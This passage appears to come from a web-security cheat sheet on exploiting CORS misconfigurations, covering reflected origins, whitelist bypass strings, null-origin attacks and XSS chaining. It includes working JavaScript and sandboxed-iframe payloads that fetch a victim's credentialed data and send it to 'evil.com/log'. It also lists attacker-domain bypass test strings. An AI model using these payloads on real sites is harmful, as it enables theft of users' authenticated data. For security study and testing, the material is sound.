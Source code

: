       function reqListener() {
        location='//evil.com/log?key='+this.responseText;
      };
      ```
    - Requirements for exploit:
      - Victim must visit attacker's website
      - Target site must reflect arbitrary origins
      - Target site must set `Access-Control-Allow-Credentials: true`
      - Sensitive information must be included in responses

  - **Errors parsing Origin headers (misconfigured whitelists)**
    - Vulnerability: Improper implementation of origin whitelists using prefix/suffix matching
    - Exploitation techniques:
      - Subdomain bypass: If `normal-website.com` is allowed, try `normal-website.com.evil.com`
      - Path confusion: If `https://trusted.com` is allowed, try `https://trusted.com.evil.com`
      - Incorrect regex: If matching `example\.com$`, try `example.com.attacker.com`
      - Protocol confusion: If `https://example.com` is allowed, try `http://example.com`
      - Additional dots: If `example.com` is allowed, try `example.com.`
      - Port manipulation: If `example.com` is allowed, try `example.com:arbitrary-port`
      - URL encoding: Try various encodings of allowed domains
    - Example test cases:
      - For whitelist containing `trusted-website.com`:
        - Try `attackertrusted-website.com`
        - Try `trusted-website.com.attacker.com`
        - Try `trusted-website.comevilextra`

  - **Whitelisted null origin value**
    - Vulnerability: Server accepts and whitelists the special `null` origin value
    - Exploitation:
      - Generate requests with `Origin: null` header
      - Use sandboxed iframe, data URI, or file protocol to create null origin context
    - Example exploit using sandboxed iframe:
      ```html
      <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
        location='https://evil.com/log?key='+this.responseText;
      };
      </script>"></iframe>
      ```
    - Ways to generate null origin:
      - `<iframe sandbox="allow-scripts" src="data:text/html,<script>/*exploit code*/</script>">`
      - Access via `file:///` protocol
      - Data URLs in some browsers
      - Serialized data in some contexts

  - **Exploiting XSS via CORS trust relationships**
    - Vulnerability: Trusted subdomain with XSS vulnerability + CORS trust relationship
    - Attack chain:
      1. Find XSS vulnerability on a subdomain that is trusted by the main site
      2. Main site sets `Access-Control-Allow-Origin: https://vulnerable-subdomain.com`
      3. Exploit XSS to execute JavaScript that makes CORS requests to the main site
      4. Access and exfiltrate sensitive data from the main site
    - Example:
      - Vulnerable site sets: `Access-Control-Allow-Origin: https://dev.example.com`
      - Attacker finds XSS on dev.example.com
      - Attacker creates URL: `https://dev.example.com/?xss=<script>/* CORS exploit */</script>`
      - When victim visits, attacker's code accesses data from the main example.com site
